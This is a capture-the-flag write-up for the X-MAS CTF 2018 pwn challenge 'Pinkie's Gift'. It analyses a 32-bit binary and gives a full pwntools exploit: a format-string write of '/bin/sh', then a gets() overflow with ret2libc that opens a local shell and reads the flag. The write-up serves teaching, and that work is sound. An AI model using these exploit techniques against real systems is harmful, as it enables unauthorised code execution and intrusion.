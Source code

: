 # __XMAS-CTF 2018__ 
## _Pinkie's Gift_

## Information
**Category:** | **Writeup Author**
--- | ---
Pwn | Huascar Tejeda <<htejeda@f2tc.com>>

**Description:** 

> In this challenge, Santa Pie will give you some unusual gifts. See if you can use this wisdom to get the flag before Christmas.
>
> [pinkiegift.dms](pinkiegift.dms) 
>
> Author: PinkiePie1189

**Flag:**

> X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}

## Solution

After doing an initial static analysis to have a better understanding of what we are going to face. We identified a few really interesting things:

![](/images/XMAS-CTF-2018/PinkiesGift/01.png)

1. Santa gave us a very generous gift. The addresses to the binsh variable and system!

```
0x080485a7 <+97>:	mov    eax,DWORD PTR [ebx-0x10]
0x080485ad <+103>:	push   eax
0x080485ae <+104>:	mov    eax,0x8049940
0x080485b4 <+110>:	push   eax
0x080485b5 <+111>:	lea    eax,[ebx-0x1254]
0x080485bb <+117>:	push   eax
0x080485bc <+118>:	call   0x80483c0 <printf@plt>
```

**`printf` arguments:**
```
arg[0]: 0x8048690 ; "Here are some gifts from Santa: %p %p\n"
arg[1]: 0x8049940 ; binsh variable
arg[2]: 0xf7e3de80 ; <system>

[f2tc@htejeda pinkiegift]$ readelf -s ./pinkiegift.dms | grep 8049940
    54: 08049940   100 OBJECT  GLOBAL DEFAULT   25 binsh
```

2. The printf(buf) after fgets(buf, 128, stdin) is vulnerable to format string

3. The use of the vulnerable function `gets(buf)`

---

#### Security properties of the executable:
```
[f2tc@htejeda pinkiegift]$ checksec pinkiegift.dms 
[*] '/home/f2tc/xmas-ctf/pwn/pinkiegift/pinkiegift.dms'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Since NX is the only protection and Santa already gave us the addresses to system and binsh, our strategy is the following:

1. Take advantage of the Format String vulneraiblity to alter the value of binsh variable with "/bin/sh"
2. Overflow gets(buf) and use ret2libc: `system(binsh)`

#### Format String
```
[f2tc@htejeda pinkiegift]$ ./pinkiegift.dms 
Here are some gifts from Santa: 0x8049940 0xf75e6e80
AAAA%08x
AAAA41414141
```
_**Important:** buf is the 1st argument, no previous characters are printed_

#### Buffer Overflow

```
0x080485f0 <+170>:	lea    eax,[ebp-0x84]
0x080485f6 <+176>:	push   eax
0x080485f7 <+177>:	call   0x80483d0 <gets@plt>
```

**Buffer** | **SFP** | **EIP**
--- | --- | ---
`"A" * 132` | `"A"*4` | BBBB

```
gdb-peda$ r < <(python -c 'print "FMTSTR\n"+ "A"*136 + "BBBB"')
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0xfbad208b 
EDX: 0xf7fc78a4 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd480 --> 0x0 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd480 --> 0x0 
0004| 0xffffd484 --> 0xffffd514 --> 0xffffd643 ("/home/f2tc/xmas-ctf/pwn/pinkiegift/./pinkiegift.dms")
0008| 0xffffd488 --> 0xffffd51c --> 0xffffd66f ("XDG_SESSION_ID=2163")
0012| 0xffffd48c --> 0xf7fd86c0 --> 0x80482de ("GLIBC_2.0")
0016| 0xffffd490 --> 0x1 
0020| 0xffffd494 --> 0x1 
0024| 0xffffd498 --> 0x0 
0028| 0xffffd49c --> 0x8049900 --> 0xf7e190c0 (<__libc_start_main>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

## Exploit

```python
import sys
from pwn import *
from libformatstr import FormatStr

p = process('./pinkiegift.dms')
gift   = p.recv().split(' ')
binsh  = int(gift[6], 16)
system = int(gift[7], 16)

print "Stage 1"
fmt = FormatStr()
fmt[binsh] = "/bin/sh"
p.sendline(fmt.payload(1, 0))
stage1 = p.recv()

print "Stage 2"
stage2  = "A"*136
stage2 += p32(system)
stage2 += "PADD"
stage2 += p32(binsh)

p.sendline(stage2)
p.recv()

p.interactive()
```

```
[f2tc@htejeda pinkiegift]$ ./exploit.py 
$ cat flag
X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}
```